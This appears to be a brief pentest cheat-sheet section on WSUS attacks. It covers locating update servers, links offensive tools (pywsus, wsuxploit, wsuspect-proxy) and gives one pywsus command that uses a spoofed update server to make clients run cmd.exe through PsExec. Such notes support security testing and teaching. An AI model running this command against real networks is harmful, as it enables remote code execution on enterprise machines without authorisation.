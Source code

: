 --> WSUS Server can be found based on the server hostname (e.g. server-wsus-01) or based on open ports (8530,8531)  

**Tools**  
- https://github.com/pimps/wsuxploit
- https://github.com/GoSecure/pywsus
- https://github.com/ctxis/wsuspect-proxy/

```
python pywsus.py -H 172.16.205.21 -p 8530 -e PsExec64.exe -c ‘/accepteula /s cmd.exe /c “echo wsus.poc > C:\\poc.txt”‘
```

- [WSUSpect Black Hat Talk](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf)
- [WSUSPect tool](https://github.com/ctxis/wsuspect-proxy)
- [PyWSUS](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)
  
Windows Update is a Windows service, **wuauclt.exe** which run periodically to check for updates.  
Registry keys exist that govern various details such:
- Update server's location
- Update frequency
- Privileged Escalation of unprivileged users

--> Communication: Client --> Windows Update Server : HTTP(S) / SOAP XML web service.  

#### WSUS details
WSUS or Windows Software Update Services is the enterprise variant of Windows update.  
- Updates fetched from local server instead of Microsoft Server
- Updates must be approved by administrator before being pushed out

**wsus soap service**  
<img src="./images/wsus_soap_service.png" width="500"/>
